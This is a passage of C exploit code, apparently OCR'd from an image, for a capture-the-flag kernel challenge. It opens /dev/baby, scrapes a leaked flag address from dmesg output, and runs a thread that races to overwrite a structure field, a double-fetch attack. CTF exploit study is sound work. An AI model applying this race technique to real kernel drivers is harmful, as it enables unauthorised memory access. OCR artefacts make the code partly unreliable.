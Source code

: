 ```c
    while(finish==0){

    s1->flag = addr;
    }

}



int main(void)

{

    int addr_fd;

    char *idx;

    int fd = open("/dev/baby",0);

    int ret = ioctl(fd,0x6666);    

    pthread_t t1;

    struct attr t;

    setvbuf(stdin,0,2,0);

    setvbuf(stdout,0,2,0);

    setvbuf(stderr,0,2,0);   

/ / Get the kernel hard-coded flag address
    system("dmesg > /tmp/record.txt");

    addr_fd = open("/tmp/record.txt",O_RDONLY);

    lseek(addr_fd,-LEN,SEEK_END);

    read(addr_fd,buf,LEN);

    close(addr_fd);

    idx = strstr(buf,"Your flag is at ");

    if (idx == 0){

        printf("[-]Not found addr");

        exit(-1);

    }

    else{

        idx+=16;

        addr = strtoull(idx,idx+16,16);

        printf("[+]flag addr: %p\n",addr);

    }

/ / Construct attr data structure
```